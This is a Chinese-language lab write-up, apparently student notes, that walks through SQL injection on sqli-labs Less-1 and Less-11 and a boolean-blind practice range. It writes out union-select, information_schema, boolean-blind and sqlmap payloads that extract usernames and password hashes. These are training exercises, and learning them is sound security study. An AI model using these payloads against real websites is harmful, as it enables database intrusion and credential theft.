 #### 1. 注入实验：Less-1（基础 GET 注入）
1.1 判断是否存在sql注入
1.提示你输入数字值的ID作为参数，我们输入?id=1
![image.png](https://image.kmoon.fun/2025/202505181802834.png)
2.通过数字值不同返回的内容也不同，所以我们输入的内容是带入到数据库里面查询了。
![image.png](https://image.kmoon.fun/2025/202505181803478.png)
![image.png](https://image.kmoon.fun/2025/202505181803482.png)

3.接下来我们判断sql语句是否是拼接，且是字符型还是数字型。
![image.png](https://image.kmoon.fun/2025/202505181803602.png)
![image.png](https://image.kmoon.fun/2025/202505181803500.png)

4.可以根据结果指定是字符型且存在sql注入漏洞。因为该页面存在回显，所以我们可以使用联合查询。联合查询就是两个sql语句一起查询，两张表具有相同的列数，且字段名是一样的。

1.2 联合注入
第一步：首先知道表格有几列，如果报错就是超过列数，如果显示正常就是没有超出列数。
**?id=1'order by 3 --+**
![image.png](https://image.kmoon.fun/2025/202505181805271.png)
![image.png](https://image.kmoon.fun/2025/202505181805082.png)

第二步：爆出显示位，就是看看表格里面那一列是在页面显示的。可以看到是第二列和第三列里面的数据是显示在页面的。
**?id=-1'union select 1,2,3--+**
![image.png](https://image.kmoon.fun/2025/202505181806765.png)
第三步：获取当前数据名和版本号。通过结果知道当前数据看是security,版本是5.7.26。
**?id=-1'union select 1,database(),version()--+**
![image.png](https://image.kmoon.fun/2025/202505181806764.png)

第四步： 爆表，information_schema.tables表示该数据库下的tables表，点表示下一级。where后面是条件，group_concat()是将查询到结果连接起来。如果不用group_concat查询到的只有user。
**?id=-1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+**
该语句的意思是查询information_schema数据库下的tables表里面且table_schema字段内容是security的所有table_name的内容。
![image.png](https://image.kmoon.fun/2025/202505181807487.png)
 第五步：爆字段名，我们通过sql语句查询知道当前数据库有四个表，根据表名知道可能用户的账户和密码是在users表中。接下来我们就是得到该表下的字段名以及内容。
**?id=-1'union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+**
该语句的意思是查询information_schema数据库下的columns表里面且table_users字段内容是users的所有column_name的内。注意table_name字段不是只存在于tables表，也是存在columns表中。表示所有字段对应的表名。
![image.png](https://image.kmoon.fun/2025/202505181808792.png)
 第六步：通过上述操作可以得到两个敏感字段就是username和password,接下来我们就要得到该字段对应的内容。加了一个id可以隔一下账户和密码。
 **?id=-1' union select 1,2,group_concat(username ,id , password) from users--+**
 ![image.png](https://image.kmoon.fun/2025/202505181810106.png)

#### 2. 注入实验：Less-11（POST注入）
![image.png](https://image.kmoon.fun/2025/202505181811734.png)

该页面是一个账户登录页面。那么注入点就在输入框里面。
同时该登录请求是一个  POST 请求，参数是在表单里面。
我们可以直接在输入框进行注入就行。
并且参数不在是一个还是两个。
根据前面的认识我们可以猜测sql语句。
大概的形式应该是这样username=参数 and password=参数 ，只是不知道是字符型还是整数型。
当我们输入1时出现错误图片：
![image.png](https://image.kmoon.fun/2025/202505181812289.png)
当我们输入1',出现报错信息。根据报错信息可以推断该sql语句username='参数' and password='参数'
![image.png](https://image.kmoon.fun/2025/202505181813268.png)
知道sql语句我们可以构造一个恒成立的sql语句，看的查询出什么。这里我们使用--+注释就不行，需要换成#来注释。
![image.png](https://image.kmoon.fun/2025/202505181814151.png)
![image.png](https://image.kmoon.fun/2025/202505181814155.png)
后面的步骤就和前面的实验一样，使用联合注入就可以获取数据库信息。

#### 3. 选做
- [墨者学院 SQL注入漏洞测试(布尔盲注)](https://mozhe.cn/bug/detail/UDNpU0gwcUhXTUFvQm9HRVdOTmNTdz09bW96aGUmozhe)
![image.png](https://image.kmoon.fun/2025/202505181816282.png)

启动靶场环境后，进入页面发现同样是一个登录表单。
![image.png](https://image.kmoon.fun/2025/202505181819543.png)
下方有一个滚动的通知，我们点击通知进去
![image.png](https://image.kmoon.fun/2025/202505181820132.png)
发现 url 中有一个 id 参数
通过测试 and 1=1 and 1=2 之后发现存在注入点
![image.png](https://image.kmoon.fun/2025/202505181823696.png)
![image.png](https://image.kmoon.fun/2025/202505181823106.png)
通过 order by 判断列数 4时正常，5时报错，判断列数为4列
![image.png](https://image.kmoon.fun/2025/202505181824859.png)
![image.png](https://image.kmoon.fun/2025/202505181824837.png)
联合查询判断显示位：正确的列数下却没有任何回显，只能显示报错，由此验证是布尔盲注
![image.png](https://image.kmoon.fun/2025/202505181825659.png)
![image.png](https://image.kmoon.fun/2025/202505181825780.png)

盲注测试数据库的长度

盲注的要点是，利用函数，根据页面是否正确回显，从而判断输入的参数是否正确

构造语句and if(length(database())=10,1,0)，得到正常的回显，则数据库长度为10

length()：常用于计算字符串长度  
而if则判断database()长度是否等于10，是返回1，不是返回0

![fig:](https://img2023.cnblogs.com/blog/3205924/202305/3205924-20230524225648205-340693733.png)

长度错误时报错

![fig:](https://img2023.cnblogs.com/blog/3205924/202305/3205924-20230524225648373-1820759801.png)

进一步猜测数据库的名称

构造语句and if(substr(database(),1,1)='s',1,0)，猜测数据库的第一个字符

substr(str, pos, len)：str为字符串，pos为起始位置，len为截取字符个数  
即为截取数据库的第一个字符，判断是否为s，是返回1，不是返回0

得到正确回显

![fig:](https://img2023.cnblogs.com/blog/3205924/202305/3205924-20230524225648405-2070574425.png)

猜测第二个字符，得到r

![fig:](https://img2023.cnblogs.com/blog/3205924/202305/3205924-20230524225648296-1009136881.png)

以此类推……最终得到数据库的名称为stormgroup

![fig:](https://img2023.cnblogs.com/blog/3205924/202305/3205924-20230524225648279-987396943.png)
盲注猜测表的名称

构造语句and if(substr((select table_name from information_schema.tables where table_schema='stormgroup' limit 0,1),1,1)='m',1,0)

判断出第一张表的第一个字符是m

select table_name from information_schema.tables where table_schema='stormgroup' limit 0,1即正常获取第一张表

![fig:](https://img2023.cnblogs.com/blog/3205924/202305/3205924-20230524225648384-270410844.png)

手工盲注非常耗时，我们可以使用 sqlmap 工具：
下载地址 [sqlmap: automatic SQL injection and database takeover tool](https://sqlmap.org/)
1. 在终端中启动sqlmap
**python sqlmap.py** 后面加参数执行sql注入
2. sqlmap -u "new_list.php?id=1" --dbs   
获得数据库名stormgroup  
  
3. sqlmap -u “new_list.php?id=1" -D stormgroup --tables   
  
显示两个表member和notice，显然member存储用户信息

2. sqlmap -u "new_list.php?id=1" -D stormgroup -T member --columns —batch

得字段 name，password，status  
5. dump表  
sqlmap -u "new_list.php?id=1" -D stormgroup -T member -C name,password --dump  
得两个用户，密码为md5，解密status为1的MD5得密码